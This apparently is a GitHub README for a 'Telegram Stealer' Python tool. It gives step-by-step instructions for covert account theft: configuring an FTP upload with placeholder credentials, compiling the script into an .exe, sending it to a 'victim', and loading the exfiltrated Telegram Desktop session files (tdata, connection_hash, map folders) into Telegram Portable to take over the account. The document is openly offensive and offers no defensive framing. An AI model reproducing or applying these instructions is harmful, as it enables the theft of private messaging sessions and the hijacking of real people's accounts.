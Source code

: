 # Telegram Stealer v3.0

This script is designed to retrieve Telegram Desktop access data by copying relevant files and folders to a backup location and archiving them in a zip file. It also provides the ability to upload this archive to an FTP server for remote storage.

## Prerequisites

- Python 3.x
- Required Python packages: `ftplib`

## Usage

1. Clone or download the repository.

2. Open the `Vectr_v3.0.py` file in a text editor.

3. Modify the following variables according to your requirements:

    ```python
    ftp = FTP()
    ftp.set_debuglevel(2)
    ftp.connect('Host_Name', 21)
    ftp.login('User_Name', 'Password')
    ftp.cwd('/htdocs/tgtest')

4. Use auto-py-to-exe-master to create an .exe file following the instructions in the picture below:

    ![Example Image](instructions_images/image0.png)

5. After creating the .exe file, send it to the victim. After the victim runs it, your FTP server will receive an archive with the data.

    You can use, for example, FileZilla to communicate with your FPT server and interact with files

   
6. Download Telegram Portable

    Go to the folder with the downloaded Telegram Portable:
    
    ![Example Image](instructions_images/image1.png)

    
7. Run Telegram.exe - in the folder tdata it should create files and also the folder D877F783D5D3EF8C, if the folder was not created, try to close Telegram and try again, it is not always created from the first time:
    
    Should looks like this:

    ![Example Image](instructions_images/image2.png)

    Close Telegram

8. Unzip the archive from the FTP server and go through the folder hierarchy until you get to our two main folders connection_hash and map:

    ![Example Image](instructions_images/image3.png)

9. Now, the most important thing, copy all files from the connection_hash folder (from the archive) to the tdata folder (Telegram Portable directory), replacing the required files:

    ![Example Image](instructions_images/image4.png)

10. Next, copy all available folders from the map folder (from the archive) into the tdata folder (Telegram Portable directory), replacing them with the required folders:

    ![Example Image](instructions_images/image5.png)

11. That's all, run Telegram.exe and have fun!
